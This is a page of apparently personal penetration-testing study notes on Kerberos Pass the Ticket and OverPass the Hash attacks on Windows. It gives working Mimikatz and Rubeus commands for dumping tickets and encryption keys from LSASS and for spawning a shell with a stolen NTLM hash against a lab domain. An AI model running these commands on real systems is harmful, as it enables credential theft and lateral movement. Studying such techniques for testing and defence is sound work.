

repository: amandaguglieri/hackinglife · page: pass-the-ticket/index.html · generator: mkdocs

---
title: Pass the Ticket (PtT) from Windows
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - windows
  - lateral
  - movement
---
# Pass the Ticket (PtT) 

In this attack, we use a stolen Kerberos ticket to move laterally. It can be:

- Service Ticket (TGS - Ticket Granting Service) to allow access to a particular resource.
- Ticket Granting Ticket (TGT), which we use to request service tickets to access any resource the user has privileges.


## Harvesting Kerberos Tickets from Windows

On Windows, tickets are processed and stored by the LSASS (Local Security Authority Subsystem Service) process. Therefore, to get a ticket from a Windows system, you must communicate with LSASS and request it.

**As a non-administrative user, you can only get your tickets, but as a local administrator, you can collect everything.**

### Mimikatz - Export Tickets

```cmd-session
.\mimikatz.exe
privilege::debug
sekurlsa::tickets /export
exit
dir *.kirbi
```

### Rubeus

If running as Local admin it will dump all the tickets. `Rubeus dump`, instead of giving us a file, will print the ticket encoded in base64 format.

```cmd-session
.\Rubeus.exe dump /nowrap
```

Another interesting command:

```powershell
.\Rubeus.exe dump /extractkeys /nowrap
```


## Forge your own tickets with Pass the Key or OverPass the Hash

The traditional pass-the-hash technique involves reusing a hash through the NTLMv1/NTLMv2 protocol, which doesn't touch Kerberos at all. The `Pass the Key` or `OverPass the Hash` approach converts a hash/key (rc4_hmac, aes256_cts_hmac_sha1, etc.) for a domain-joined user into a full `Ticket-Granting-Ticket (TGT)`.

**Note:** Mimikatz requires administrative rights to perform the Pass the Key/OverPass the Hash attacks, while Rubeus doesn't.

### Mimikatz  - Pass the Key or OverPass the Hash

It requires administrative rights.

**1.** Get hashes with sekurlsa::ekeys

To forge our tickets, we need to have the user's hash; we can use Mimikatz to dump all users Kerberos encryption keys using the module `sekurlsa::ekeys`. This module will enumerate all key types present for the Kerberos package.

```cmd-session
mimikatz.exe
privilege::debug
sekurlsa::ekeys
```

Now that we have access to the `AES256_HMAC` and `RC4_HMAC` keys, we can perform the OverPass the Hash or Pass the Key attack using `Mimikatz` and `Rubeus`.

**2.** Pass the Key or OverPass the Hash

```cmd-session
mimikatz.exe
privilege::debug
sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f 
```

This will create a new `cmd.exe` window that we can use to request access to any service we want in the context of the target user.
